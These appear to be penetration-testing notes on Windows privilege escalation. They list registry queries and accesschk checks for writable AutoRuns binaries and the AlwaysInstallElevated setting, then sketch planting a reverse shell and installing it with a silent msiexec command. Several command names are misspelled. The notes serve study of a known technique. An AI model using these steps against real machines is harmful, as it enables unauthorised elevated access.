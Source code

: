 ### AutoRuns
- Startup apps or "AutoRuns" are configures in the registry.
- If the autoruns executable is wriable and we have the privilege to restart the system, we can place the reverse shell and restart the system to get a shell
```powershell
# Get a list of Autorun Programs
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Check for each binary using accesshck
.\accesschk -quv "C:\Program Files\program.exe"

# overwrite with reverse shell and restart the service
SHELL!
```

### AlwaysInstalledElevated
- MSI are installer files that are used to install application
- Runs with the permission of the user executing the file
- Windows allows for these installers to be run with elevated privileges.
- Two Registry requirements:
```powershell
"AllwaysInstallElevated" should be 0x1 for
# Local Machine
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
# Current User
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

# Can be queried using reg command
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AllwaysInstalledElevated

# Gerenerate payload with msi format

# install with msiexec
msiexec /quiet /qn /i reverse.exe
```